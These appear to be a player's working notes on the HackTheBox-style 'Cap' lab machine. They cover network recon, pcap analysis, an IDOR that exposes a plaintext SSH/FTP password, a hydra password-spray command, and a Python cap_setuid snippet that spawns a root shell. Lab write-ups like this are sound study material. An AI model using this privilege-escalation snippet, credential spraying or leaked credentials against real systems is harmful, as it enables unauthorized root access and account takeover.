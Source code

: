 # Cap Notes

## Data 

IP: 10.129.198.137
OS: Ubuntu
Hostname:
Domain:  / Domain SID:
Machine Purpose: 
Services: 
- SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.2
- https://github.com/benoitc/gunicorn
- https://colorlib.com/wp/themes/ 
Service Languages:
Users: Nathan
Credentials:

## Objectives

## Target Map

![](Cap-map.excalidraw.md)

## Solution Inventory Map


`ifconfig` - cmd
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.198.137  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 fe80::250:56ff:fe96:37af  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:fe96:37af  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:96:37:af  txqueuelen 1000  (Ethernet)
        RX packets 5345  bytes 414573 (414.5 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1908  bytes 889982 (889.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 3701  bytes 291201 (291.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3701  bytes 291201 (291.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

netstat shows connections that were present at time of configuration - NOT Modified
```c
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name     Timer
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      101        34329      -                    off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          37158      -                    off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1001       36211      -                    off (0.00/0/0)
tcp        0      1 10.129.198.137:33164    8.8.8.8:53              SYN_SENT    101        43719      -                    on (7.76/3/0)
tcp        0      0 10.129.198.137:80       10.10.14.40:60706       ESTABLISHED 1001       43720      -                    off (0.00/0/0)
tcp6       0      0 :::21                   :::*                    LISTEN      0          36883      -                    off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      0          37160      -                    off (0.00/0/0)
udp        0      0 127.0.0.1:56867         127.0.0.53:53           ESTABLISHED 102        43718      -                    off (0.00/0/0)
udp        0      0 127.0.0.53:53           0.0.0.0:*                           101        34328      -                    off (0.00/0/0)
udp        0      0 0.0.0.0:68              0.0.0.0:*                           0          32598      -                    off (0.00/0/0)

...
lots of :
...
tcp        0      0 10.129.198.137:80       10.10.14.40:58344       TIME_WAIT   0          0          -
tcp6       0      0 10.129.198.137:21       10.10.14.40:36472       ESTABLISHED 0          85986      -


```

http://osr600doc.sco.com/en/man/html.ADMN/dhcpc.ADMN.html /UDP 68 is running as root, but the pcap is no referencing any UDP connections

#### 1.PCAP

10.10.14.40 
gunicorn

- Try interact with website with wireshark open to TSVal, TSecr
[How TCP Works - Chris Greer](https://www.youtube.com/watch?v=4EFEdAyxemk)
- TCP does not know architecture
Timestamps option can reduce retransmission timer 
SACK_PERM TSVal, TSecr - Timestamp Value and Timestamp Echo Reply - do not confused with [[Wireshark]] Timestamping
- Some increment by the miliseconds or network latency

NOT Modified
https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/304
Everything it loads a page for this user the server runs through every js and ccs file indictated by the packet length



#### WP?

https://colorlib.com/wp/themes/ - but cant find wp directory and wpscan report nowordpress
https://wpscan.com/plugin/owl-carousel - is for wordpress
#### Screenshots

webroot.png
moreusers.png
freepcap.png
ifconfigforfree.png
intriguingports.png
tsvalandtsecr.png
alotofnotmodified.png
nolfiondownload.png
404whereiswp.png
resolvinghowdataisthere.png
feroxbusterwherewp.png
noinjections.png

realised there are three pcaps then IDORed to 0th...
nomoresighs.png


bucketheadpassword.png
Start playing [Soothsayer - Buckethead](https://www.youtube.com/watch?v=adV8-_hgL4ghttps://www.youtube.com/watch?v=adV8-_hgL4g), but then remembered killswitch mod and the hack sounding [Jordan](https://www.youtube.com/watch?v=Y-NjZp7Aurg) 

`nathan : Buck3tH4TF0RM3!`

wearenathan.png

```bash
Linux cap 5.4.0-80-generic #90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
# /nathan/snap contains: 
lxd 
# But linpeas or 
getcap -r / 2>/dev/null
# 
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip


# root can ssh

/usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)

handlers.py 
```

```python
import os
os.setuid(0)
os.system("/bin/bash")
```

root.png

### Todo 

### Done

Password sprayed ftp with `hydra -l nathan darknet-2017-top1000.txt` no success


```bash
cat webroot.html |  grep email | sed 's/<h4>//g' | uniq | grep -v '<p>\|<h5>' | awk '{print $1}' > users.txt
echo "Ratul Hamba" >> fullname-users.txt
echo "Kaji Patha" >> fullname-users.txt
echo "Nathan" >> users.txt
echo "Kaji" >> users.txt
```

